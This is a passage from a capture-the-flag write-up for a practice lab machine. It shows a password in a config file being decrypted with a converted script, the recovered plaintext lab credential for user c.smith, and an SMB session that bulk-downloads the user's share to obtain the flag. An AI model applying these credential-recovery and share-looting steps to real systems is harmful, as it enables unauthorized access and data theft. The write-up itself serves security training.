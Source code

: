 # Exploitation

After some google research for ru scanner config xml password i found a website which have a vl script which decyrpts the password 

https://dotnetfiddle.net/WxdQ3b

since i am not soo familiar with this language i converted the code to python using chatgpt and then decvrypted the password

```bash
python decrypt.py
Old:
----
Password: xRxRxPANCAK3SxRxRx
Username: c.smith

New:
----
Username (encrypted): rb25tSPsLKBuSDOf8foPNw==
Password: xRxRxPANCAK3SxRxRx
```

Using this i got the password for the user c.smith itslef

## User flag

Connecting to the user share and in the c.smith foler we have or user flag

```bash
smbclient //10.10.10.178/Users -U c.smith 
Password for [WORKGROUP\c.smith]:
Try "help" to get a list of possible commands.
smb: \> prompt off
smb: \> recurse on 
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Administrator\*
getting file \C.Smith\user.txt of size 34 as C.Smith/user.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \L.Frost\*
NT_STATUS_ACCESS_DENIED listing \R.Thompson\*
NT_STATUS_ACCESS_DENIED listing \TempUser\*
getting file \C.Smith\HQK Reporting\Debug Mode Password.txt of size 0 as C.Smith/HQK Reporting/Debug Mode Password.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
getting file \C.Smith\HQK Reporting\HQK_Config_Backup.xml of size 249 as C.Smith/HQK Reporting/HQK_Config_Backup.xml (0.2 KiloBytes/sec) (average 0.1 KiloBytes/sec)
getting file \C.Smith\HQK Reporting\AD Integration Module\HqkLdap.exe of size 17408 as C.Smith/HQK Reporting/AD Integration Module/HqkLdap.exe (6.2 KiloBytes/sec) (average 2.4 KiloBytes/sec)

.
├── HQK Reporting
│   ├── AD Integration Module
│   │   └── HqkLdap.exe
│   ├── Debug Mode Password.txt
│   └── HQK_Config_Backup.xml
└── user.txt
```
